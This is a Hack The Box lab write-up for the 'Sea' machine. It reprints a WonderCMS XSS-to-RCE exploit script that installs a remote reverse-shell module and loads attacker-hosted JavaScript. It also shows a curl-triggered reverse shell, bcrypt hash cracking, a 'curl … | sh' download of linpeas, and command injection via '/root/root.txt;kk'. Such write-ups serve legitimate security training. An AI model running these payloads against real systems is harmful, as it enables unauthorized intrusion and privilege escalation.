






# Sea Heist - HTB Writeup

## PART ONE: USER

Let’s begin with an nmap scan:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e354e072203c014293d1669d900cabe8 (RSA)
|   256 f3244b08aa519d56153d6756747c2038 (ECDSA)
|_  256 30b105c64150ff22a37f41060e67fd50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

IIt seems like there are two services, HTTP and SSH, which are pretty common. Let's focus on HTTP first. And to do so, I will need to add the box to our `/etc/hosts`.

Let's have a look at the site :



Nothing special at first glance. There is another page `How to participate`. That leads to `contact.php`.

I tried many things on this page but it was a waste of time. Let's get back to a good old `fuff` scan :

```bash
ffuf -c -w /opt/seclists/Discovery/Web-Content/big.txt -u "http://$TARGET/FUZZ" -recursion -recursion-depth 4 -fc 302,401,403
```

After searching for a while, I came across two interesting paths: `/themes/bike/version` and `/themes/bike/Readme.md`. With them I learned that the site is using the `WonderCMS` framework in it's version 3.2.0.

Let's dig for an exploit on [exploit-db.com](https://www.exploit-db.com/exploits/51805).

I found a pretty intereting one with `WonderCMS` version 4.3.2.

```python
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();

     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```

I tried it but it does not work. Let's analyse it to understand how it works. It seems like the above code install a module called RevShell and save it to `themes/revshell-main/rev.php`. (By resetting the machine, you will find that the reverse shell is already present. Is this an error ?) And then execute it : `xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);`

Anyway. Let's try to trigger the shell with something like :

```bash
curl http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.61+&lport=1234
```

And starting the listenner :

```bash
pwncat-cs :1234
```

If you don't know [pwncat](https://pwncat.readthedocs.io/en/latest/) yet, you should definitely have a look.

And boom, I get in !

```bash
wncat-cs :1234
[19:20:51] Welcome to pwncat 🐈!                                                      __main__.py:164
[19:53:25] received connection from 10.10.11.28:35156                                      bind.py:84
[19:53:33] 0.0.0.0:1234: upgrading from /usr/bin/dash to /usr/bin/bash                 manager.py:957
[19:53:35] 10.10.11.28:35156: registered new host w/ db                                manager.py:957
(local) pwncat$
(remote) www-data@sea:/$ whoami
www-data
```

Now I need to find to way to connect myself as a user. I proceed to some search and found `/var/www/sea/data/database.js`.

```javascript
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

Hash password. Using hashid we found nothing. Strange. And after a bit of research, we understand that it's only because of the `\`.

Let's remove them and then use `hashcat`:

```bash
hashcat hash.txt -m 3200 /opt/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz, 14910/29885 MB (4096 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:<password>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Tue Aug 13 20:04:21 2024 (48 secs)
Time.Estimated...: Tue Aug 13 20:05:09 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       64 H/s (7.38ms) @ Accel:8 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3008/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: blessing -> dangerous
Hardware.Mon.#1..: Temp: 59c Util: 85%

Started: Tue Aug 13 20:03:23 2024
Stopped: Tue Aug 13 20:05:10 2024
```

Now that I have the password, I'm missing the username. To find it I checked the home folder `ls /home`. There is two users `amay` and `geo`. Now we can ssh and validate the user flag !

## PART TWO: ROOT

Now about privilege escalation. There is no script or sudo command execution.

So let's do linpeas. To download it on the box we can start a local server :

```bash
python3 -m http.server 80
```

And curl on the box what we need :

```bash
curl http://10.10.16.61/linpeas.sh | sh
```

After analysing the result there is nothing amazing. However, there is port `8080` opened. We can make an ssh port forwarding :

```bash
ssh -L 8888:localhost:8080 amay@sea.htb
```

And visit the site on our local browser. I need to connect myself. Let's tried with the ssh crendentials :



And now I can access the site :



Well this a System Monitor page. The first thing I notice is the Analyze part with a file selection. LFI ?

Let's investigate on burpsuite.



Let's try something like this : `/root/root.txt`



Hmmmm. After trying different approaches, why not trying to put an error ? `/root/root.txt;kk`



And boom ! This it !

Thanks for reading, please tell me if this writeup needs some changes to improve clarity, grammar, and technical accuracy.
